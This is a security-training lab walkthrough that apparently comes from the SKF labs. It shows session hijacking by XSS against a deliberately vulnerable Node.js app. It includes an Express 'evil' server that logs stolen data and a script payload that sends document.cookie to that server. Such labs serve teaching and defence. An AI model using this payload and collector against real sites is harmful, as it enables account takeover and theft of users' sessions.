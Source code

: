 # KBID 39 - HttpOnly Session hijacking

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

Now that the app is running let's go hacking!

## Reconnaissance

The attacker can compromise the session token by using malicious code or programs running at the client-side. The example shows how the attacker could use an XSS attack to steal the session token.

Because the server keeps track of the current authenticated user by means of the value of the session cookie, whenever this session cookie gets compromised an attacker is able to impersonate this user by changing his current session cookie with the compromised session cookie in his browsers session storage.

Lets start the application and login with the default credentials.

username : admin  
password: admin

PRINTSCREEN PLACEHOLDER

After authenticating to the server we can see that the user has a text-area
field at his dissposal to insert user input. When we press submit we find that
this user supplied input is being reflected on the side of the client. This is a perfect indicator that we might want to start testing for cross site scripting attacks.

Refer to the XSS labs for more information how to test!

Now, at this point we established that the application is suspectible for cross site scripting attacks after playing around with some payloads. However, the goal for this lab is to obtain the users session cookie to perform a session hijacking attack and to be able to impersonate the user on the server.

We can tell if we can hijack the session information by inspecting the cookies and see if the HTTP/HttpOnly attribute is enabled for the session cookie.

Highlighted in red we find this attribute and see that it is not activated for this application

PRINTSCREEN PLACEHOLDER

Now, we can inject the a piece of malicious javascript to see if we can prompt an alert box that displays the applications session information.

PRINTSCREEN PLACEHOLDER

PRINTSCREEN PLACEHOLDER

## Exploitation

Now that we have determined that we can

1. inject malicious javascript

2. The HttpOnly attribute is not set for the session cookie

We can start building our malicious payload and hijack the session information to our malicious webserver.

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("/", (req, res) => {
  console.log(req.query);
  res.render("evil.ejs");
});

const port = process.env.PORT || 1337;

app.listen(port, () => console.log(`Listening on port ${port}...!!!`));
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.

```text
$ npm install express ejs
```

Of course you can also run your app on whatever service you want it does not have to be nodeJs express.

```text
$ node evil_server.js
```

Now that the service is running we want to inject the malicious piece of javascript that is responsible for hijacking the victims session information.

PRINTSCREEN PLACEHOLDER

```html
<script>
  new Image().src = "http://localhost:1337/?stolen_cookie=" + document.cookie;
</script>
```

After injecting the malicious javascript in the text-area field we see the stolen cookie in the server logs.

PRINTSCREEN PLACEHOLDER

The attacker can now change the session cookie value in his browers console by the session cookie that we hijacked with our malicous payload to "hijack" the victims account.
